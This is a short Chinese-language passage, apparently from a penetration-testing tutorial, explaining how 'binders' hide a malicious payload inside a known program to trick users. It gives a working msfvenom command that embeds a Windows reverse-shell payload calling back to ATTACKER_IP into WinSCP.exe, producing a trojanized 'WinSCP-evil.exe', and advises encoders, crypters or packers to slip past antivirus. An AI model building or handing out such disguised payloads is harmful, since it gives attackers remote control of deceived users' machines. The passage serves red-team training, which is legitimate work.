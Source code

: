 虽然不是 AV bypass方法，但在设计要分发给最终用户的恶意负载时，粘合剂也很重要。绑定程序是将两个（或多个）可执行文件合并为一个可执行文件的程序。当您想要分发隐藏在另一个已知程序中的有效负载以欺骗用户相信他们正在执行不同的程序时，通常会使用它。

![在这里插入图片描述](https://img-blog.csdnimg.cn/6ea2a6a95e954bf6b60036b4b3c36532.png)

	msfvenom -a x64 --platform windows -x WinSCP.exe -k -p windows/shell_reverse_tcp lhost=ATTACKER_IP lport=7779 -f exe -o WinSCP-evil.exe

**binder的主要用途是欺骗用户，让他们相信他们正在执行合法的可执行文件而不是恶意负载。**

**在创建实际有效负载时，您可能希望使用编码器、加密器或打包程序来隐藏基于签名的 AV 的外壳代码，然后将其绑定到已知的可执行文件中，以便用户不知道正在执行什么。**